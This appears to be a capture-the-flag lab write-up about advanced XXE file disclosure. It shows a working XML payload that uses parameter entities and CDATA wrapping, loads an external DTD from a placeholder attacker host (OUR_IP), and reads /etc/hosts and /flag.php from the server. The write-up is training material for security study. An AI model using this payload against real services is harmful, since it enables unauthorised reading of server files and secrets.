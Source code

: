 # Advanced File Disclosure

#### Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').



**Step 1** - Get the XML data

* Fill the form click on **Send Message**.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Capture the POST Request and send it with Repeater

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like the last exercise, we can see the value of the tag `email`  being reflected on the Response. This time to extract the data, we'll wrap the content of the external file reference with a `CDATA` .

Since XML prevents joining internal and external entities, we have to come around with a solution. To bypass this limitation we can use `XML Parameter Entities`. This is a special type of entity that starts with `%` character and con only be used with DTD.

To do that lets create a file in our working environment call it **xxe.dtd**. File content:

```bash
<!ENTITY joined "%begin;%file;%end;">
```

Then in the same directory we start a python server:

```bash
python3 -m http.server 8000
```

Lets add our XML code and try to read a common file like the **etc/hosts**:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///etc/hosts"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
```

Make sure to add your machine IP, and add the **\&joined,** reference to the email tags.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, we retrieve the content of the **/etc/hosts** and we even got the logs on the attack machine.

Now, if you struggle to find the flag.php file, maybe it's because you were looking at the `var/www/html` directory. But the file is actually located at the root, so we have to reference it like this `file:///flag.php`

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if we send the POST Request we are able to read the **flag.php** file and retrieve the flag!

